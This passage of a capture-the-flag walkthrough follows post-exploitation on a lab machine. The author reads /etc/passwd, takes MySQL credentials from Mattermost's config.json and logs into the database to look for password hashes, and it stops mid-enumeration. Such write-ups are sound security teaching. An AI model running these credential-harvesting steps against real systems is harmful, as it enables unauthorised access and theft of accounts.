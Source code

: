Well, logging in to the scp/login.php with those credentials did not worked so i tried the ssh and voila
```
cmd: whoami && id

maildeliverer
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)

cmd: ls -la
-r-------- 1 maildeliverer maildeliverer   33 Feb 10 12:37 user.txt

cmd: cat user.txt
FLAG:f662a3a219eb7426304e05d6abedd806
```

Checking if there is another user with shell (in case we need to pivot to it)
```
cmd: cat /etc/passwd | grep -E "/bin/bash|/bin/sh"

root:x:0:0:root:/root:/bin/bash
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
```

We can see that we might need to pivot to the mattermost acc... Lets enumerate first<br>

Checking open ports (just IPV4 because... ctf)
```
cmd: (netstat -punta || ss -ntpu)

tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -  <- CUPS
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -  <- EMAIL
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -  <- MYSQL
```

After running linpeas, it shown that mattermost was at <b>/opt/mattermost</b> <br>

Checking the config (at <b> /config/config.json </b>, from https://docs.mattermost.com/administration/config-settings.html) we got
```
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

Now lets access the mysql with it, to check if it works
```
cmd: mysql -u mmuser -p 
Enter Password: Crack_The_MM_Admin_PW

<WORKED>
```

Lets enumerate the DB and get the hashes!!! <br>
```
> show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+

> use mattermost;
> show tables;

+------------------------+
```